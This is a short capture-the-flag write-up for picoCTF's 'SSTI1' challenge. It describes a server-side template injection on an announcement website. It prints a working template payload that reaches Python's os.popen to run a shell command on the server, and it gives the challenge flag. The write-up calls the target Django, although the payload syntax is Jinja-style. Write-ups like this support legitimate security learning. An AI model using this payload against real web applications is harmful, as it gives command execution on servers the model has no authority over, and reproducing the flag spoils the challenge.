

# [SSTI1](https://play.picoctf.org/practice/challenge/492?category=1&page=1)
## Description
>I made a cool website where you can announce whatever you want! Try it out!

>Additional details will be available after launching your challenge instance.

## Solution

- On clicking the challenge link, we are met with an input form, we can try fuzzing different input injection payload but its irrelevant becoz the title of the challenge already gave it away ;p

  

- I headed over to [payloadallthings](https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/Python/) and I got this payload that I used and I got the flag
	
	  {{self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}

- This payload exploits the django (a python server-side library) ssti vulnurability in the server and executes a **python code** on the native OS environment that **cat the flag**

>FLAG: picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_4675f3fa}

## Scripts
#### Python
	python3 ssti1.py <port>

[DOWNLOAD/VIEW SRIPT](ssti1.py)
#### Curl
 
## Resources